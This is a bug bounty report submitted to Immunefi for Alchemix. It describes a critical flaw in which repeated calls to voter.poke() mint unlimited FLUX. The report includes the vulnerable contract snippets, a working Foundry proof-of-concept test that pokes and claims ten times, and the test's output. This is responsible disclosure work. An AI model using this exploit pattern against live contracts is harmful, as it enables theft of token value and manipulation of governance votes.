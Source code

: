 
# Infinite minting of FLUX through `voter.poke()`

Submitted on Thu May 02 2024 19:32:01 GMT-0400 (Atlantic Standard Time) by @Django for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #30650

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol

Impacts:
- Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results
- Direct theft of any user funds, whether at-rest or in-motion, other than unclaimed yield

## Description
## Brief/Intro
A user can mint infinite FLUX token by simply calling `voter.poke()` as many times as they want. Each time `poke()` is called, it subsequently calls `_vote()` which calls `FLUX.accrueFlux()`, allowing a user to mint at will.

## Vulnerability Details
A user accrues FLUX through voting and resetting their token after each voting epoch. Quite simply, a user can use the `voter.poke()` function as many times as possible to accrue infinite unclaimed FLUX, and then claim the FLUX in the `FluxToken.sol` contract.

```
    function poke(uint256 _tokenId) public {
        /...


        _vote(_tokenId, _poolVote, _weights, _boost);
    }
```

```
    function _vote(uint256 _tokenId, address[] memory _poolVote, uint256[] memory _weights, uint256 _boost) internal {
        _reset(_tokenId);


        ...


        IFluxToken(FLUX).accrueFlux(_tokenId);
}
```

```
    function accrueFlux(uint256 _tokenId) external {
        require(msg.sender == voter, "not voter");
        uint256 amount = IVotingEscrow(veALCX).claimableFlux(_tokenId);
        unclaimedFlux[_tokenId] += amount;
    }
```

## Impact Details
- Infinite minting of FLUX will steal value from token holders
- Infinite FLUX allows for infinite boosting of voting power and governance manipulation

## Output from POC
The POC simply calls poke 10 times without changing the block number or timestamp.

```
[PASS] testAccrueFluxByPoke() (gas: 1657988)
Logs:
  FLUX Balance 2908413273694656603
  FLUX Balance 3865098966228530943
  FLUX Balance 4821784658762405283
  FLUX Balance 5778470351296279623
  FLUX Balance 6735156043830153963
  FLUX Balance 7691841736364028303
  FLUX Balance 8648527428897902643
  FLUX Balance 9605213121431776983
  FLUX Balance 10561898813965651323
  FLUX Balance 11518584506499525663
```

        
## Proof of concept
## Proof of Concept

```
    function testAccrueFluxByPoke() public {
        uint256 tokenId = createVeAlcx(admin, TOKEN_1, MAXTIME, false);

        hevm.startPrank(admin);

        uint256 claimedBalance = flux.balanceOf(admin);
        uint256 unclaimedBalance = flux.getUnclaimedFlux(tokenId);

        assertEq(claimedBalance, 0);
        assertEq(unclaimedBalance, 0);

        voter.reset(tokenId);

        unclaimedBalance = flux.getUnclaimedFlux(tokenId);
        uint256 fluxEachEpoch = veALCX.claimableFlux(tokenId);

        // Claimed balance is equal to the amount able to be claimed
        assertEq(unclaimedBalance, veALCX.claimableFlux(tokenId));

        hevm.warp(block.timestamp + nextEpoch);

        voter.reset(tokenId);

        // Add this voting periods claimable flux to the unclaimed balance
        unclaimedBalance += veALCX.claimableFlux(tokenId);

        // The unclaimed balance should equal the total amount of unclaimed flux
        assertEq(unclaimedBalance, flux.getUnclaimedFlux(tokenId));

        // maliciously poke 10 times
        for (uint256 i = 0; i < 10; i++) {
            voter.poke(tokenId);
            flux.claimFlux(tokenId, flux.getUnclaimedFlux(tokenId));
            console.log("FLUX Balance %s", flux.balanceOf(admin));
        }

        hevm.stopPrank();
    }
```